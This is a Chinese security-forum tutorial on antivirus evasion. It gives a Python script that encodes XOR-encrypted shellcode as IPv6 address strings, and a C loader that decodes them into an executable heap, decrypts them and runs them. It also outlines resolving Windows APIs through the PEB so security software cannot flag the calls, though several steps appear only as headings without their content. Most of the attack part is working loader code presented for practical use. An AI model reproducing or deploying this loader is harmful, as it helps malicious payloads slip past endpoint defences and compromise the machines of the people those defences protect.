










# 免杀基础-先知社区

> **来源**: https://xz.aliyun.com/news/18214  
> **文章ID**: 18214

---

# 一、shellcode加密编写

1、导出bin文件



2、使用010工具对其进行异或加密



2、加该加密文件使用python脚本转换成ipv6格式,直接运行就好了

python3 ipv6.py payload.bin

```
from ipaddress import IPv6Address
import sys

if len(sys.argv) < 2:
    print("Usage: %s <shellcode_file>" % sys.argv[0])
    sys.exit(1)

with open(sys.argv[1], "rb") as f:
    chunk = f.read(16)
    print("    const char* IPv6s[] =")
    print("    {")
    while chunk:
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk += b"\x90" * padding  # 用 NOP 填充
            print("        "{}"".format(IPv6Address(chunk)))
            break
        print("        "{}",".format(IPv6Address(chunk)))
        chunk = f.read(16)
    print("    };")

```

3、编写代码，shellcode的话可以文件分离的形式可以做的更好,加载器的话是创建堆调用的方法，可以改成dll镂空，进程镂空这种都行

```
const char* IPv6s[] =
{
    xxxx
};


int main() {
    PCSTR Terminator = NULL;
    NTSTATUS STATUS;
    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);    // 创建一个具有执行权限的堆
    void* hm = HeapAlloc(hHeap, 0, 0x1000);// 在堆上分配一块可执行内存
    DWORD_PTR ptr = (DWORD_PTR)hm;  //定义一个存储ipv6转换成的二进制字节序列(shellcode)
    int init = sizeof(IPv6s) / sizeof(IPv6s[0]);//获取ipv6数组元素的个数

    // 遍历ipv6数组,并将ipv6转换回原始的shellcode,然后存储在ptr地址
    for (int i = 0; i < init; i++) {
        RPC_STATUS status = ipv6((PCSTR)IPv6s[i], &Terminator, (in6_addr*)ptr);
        ptr += 16;
    }

    //解密异或
    for (int i = 0; i < init * 16; i++) {
        ((unsigned char*)hm)[i] ^= 0x56;
    }
    // 执行 shellcode
    ((void(*)())hm)();

    HeapFree(hHeap, 0, hm);
    HeapDestroy(hHeap);
    return 0;
}
```

# 在这个基础上面添加动态api调用

## api调用的话需要GetProcAddress函数，可以直接使用下面这种形式，这种很容易被杀软标记到函数，从而被杀

```
typedef NTSTATUS(WINAPI* IPV6)(
    PCSTR      S,
    PCSTR*     Terminator,
    in6_addr*  Addr
    );
IPV6 ipv6 = (IPV6)GetProcAddress(
    GetModuleHandleA("ntdll.dll"),
    "RtlIpv6StringToAddressA"
);
```

## 所以我们使用下面另外一种从PEB获取KERNEL32.dll基地址，这个是 最简单的 PEB 方式，只负责从 InInitializationOrderModuleList 里找出 kernel32.dll 的加载基址。

### 获取kernel32.dll基地址



### 获取ntdll.dll基地址



### 获取 GetProcAddress 函数的地址



## 这种获取动态api的形式像开发通用shellcode那样，通过 PEB 遍历 InMemoryOrderModuleList， 通过比较hash的方式获取它们的基地址，还有一点需要注意的是64位与32位的进入方式是不一样的

获取kernel32地址



解析pe头



获取GetProcAddress还有LoadLibraryA的地址



写完这几步的话整个免杀的框架就搭建好了，后续就可以随意调用函数，而且自定义函数名称，让杀毒软件难定位特征，在后面使用白名单，记得后面要使用局部变量喔



然后我们看下效果


